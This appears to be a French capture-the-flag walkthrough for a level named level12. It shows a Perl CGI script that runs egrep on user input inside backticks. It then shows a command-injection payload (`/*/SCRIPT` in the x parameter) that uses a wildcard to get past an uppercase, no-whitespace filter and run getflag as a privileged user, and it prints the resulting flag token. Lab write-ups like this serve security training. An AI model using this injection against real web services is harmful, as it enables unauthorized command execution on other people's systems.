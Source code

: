 On trouve dans le dossier **home** un fichier **level12.pl** qui contient :

```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
	$nn = $_[1];
	$xx = $_[0];
	$xx =~ tr/a-z/A-Z/;						# Met en majuscule
	$xx =~ s/\s.*//;						# Supprime tous les \s\t\r\n
	@output = `egrep "^$xx" /tmp/xd 2>&1`;
	foreach $line (@output) {
		($f, $s) = split(/:/, $line);
		if($s =~ $nn) {
			return 1;
		}
	}
	return 0;
}

sub n {
	if($_[0] == 1) {
		print("..");
	} else {
		print(".");
	}
}
```
On remarque dans le code qu'il y a des "sécurités" par rapport au paramètre **x**, ce dernier devant être en majuscule et sans [\s\t\r\n].
On essaie donc de passer au travers de ces sécurités en créant un fichier dans **/tmp** en majuscule et en utilisant les wildcards.
On vérifie les droits :

<pre><code>> echo "whoami > /tmp/test" > /tmp/SCRIPT
> chmod 777 /tmp/SCRIPT
</code></pre>
> Le **chmod** est important car on doit pouvoir exécuter /tmp/SCRIPT sans utiliser <code>sh</code>

Par la suite on va utilser la faille en allant sur :
<pre>http://IP:4646/?x=`/*/SCRIPT`</pre>
> x prend en value /*/SCRIPT en injection, ce qui grâce à la wildcard nous donne /tmp/SCRIPT

> Faire un curl ici ne fonctionne pas, car les droits pris seront ceux de **level12**

<pre><code>> cat /tmp/test
flag12</code></pre>

Les droits sont bons donc on fait avec <code>getflag</code>
<pre><code>> echo "getflag > /tmp/test" > /tmp/SCRIPT
> chmod 777 /tmp/SCRIPT
</code></pre>
<pre>http://IP:4646/?x=`/*/SCRIPT`</pre>
<pre><code>> cat /tmp/test
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr</code></pre>
